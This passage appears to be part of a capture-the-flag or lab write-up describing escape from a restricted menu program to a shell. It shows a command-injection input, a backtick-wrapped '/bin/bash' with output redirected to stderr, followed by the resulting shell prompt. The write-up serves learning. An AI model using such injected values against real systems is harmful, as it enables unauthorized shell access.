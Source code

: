 # Escape to shell
Option 4 gives a  hint that special characters may cause errors, after trying to execute `/bin/bash` in between back ticks "`" it seems it works but we receive no output to the console so we try again to redirect the stdout to stderror

```
`/bin/bash 1>&2`
```
And we escape to the shell.


   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.

shinny@9bf4b0fee057:~$